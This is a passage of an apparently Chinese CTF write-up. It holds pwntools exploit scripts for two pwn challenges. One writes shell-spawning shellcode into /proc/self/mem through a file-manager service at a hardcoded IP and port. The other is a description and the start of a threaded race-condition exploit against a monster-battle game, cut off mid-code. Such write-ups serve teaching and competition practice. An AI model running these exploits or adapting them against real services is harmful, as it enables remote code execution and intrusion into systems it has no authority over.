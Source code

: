 ```
	p.recvuntil(':')
	p.sendline(str(offset))
	p.recvuntil(':')
	p.sendline(str(len))
	return p.recvline()

def write_file(p, name, offset, len, data):
	p.recvuntil('\x87\xba\x0a')
	p.sendline('2')
	p.recvuntil(':')
	p.sendline(name)
	p.recvuntil(':')
	p.sendline(str(offset))
	p.recvuntil(':')
	p.sendline(str(len))
	p.recvuntil(':')
	p.sendline(data)

def game_start(ip, port, debug):
	if debug == 1:
		p = process('./fileManager')
	else:
		p = remote(ip, port)

	login(p, 'w1tcher')
	write_file(p, 'test', 0, 20, 'hack by w1tcher')
	data = read_file(p, '/proc/self/maps', 0, 0x100)[0xc:0xc + 8]
	print data
	base = int(data, 16)

	write_file(p, '/proc/self/mem', base + 0x0000D9B, 0x100, asm(shellcraft.sh()))

	p.recvuntil('\x87\xba\x0a')
	p.sendline('1')

	p.interactive()

if __name__ == '__main__':
	game_start('47.104.188.138', 30007, 1)
```

### 黑客游戏 pwn

- 题目描述

> 这题是一个攻击类题目，用户可以利用一个角色和怪物战斗，当成功击败四个怪物的时候，会触发一个有栈溢出的程序，但是按照通常的逻辑，一定无法战胜四个怪物，但是这题中用户的数据是写在文件里面的，而又通过mmap映射的方式映射到内存中去，所以多个线程同时开始的时候，映射的是同一个文件，这样导致某一个线程修改文件，对所有线程都起到同样的效果。而题目提供了一个加血的功能，这样就可以让一个线程攻击，其他线程加血。

```
from pwn import *
import threading
context(arch = 'i386', os = 'linux', endian = 'little')
# context.log_level = 'debug'

class Recovery_thread(threading.Thread):
	def __init__(self, ip, port, debug, name):
		super(Recovery_thread, self).__init__()

		self.__finish = threading.Event()
		self.__exit = threading.Event()
		self.__finish.set()
		self.__exit.clear()
		if debug == 1:
```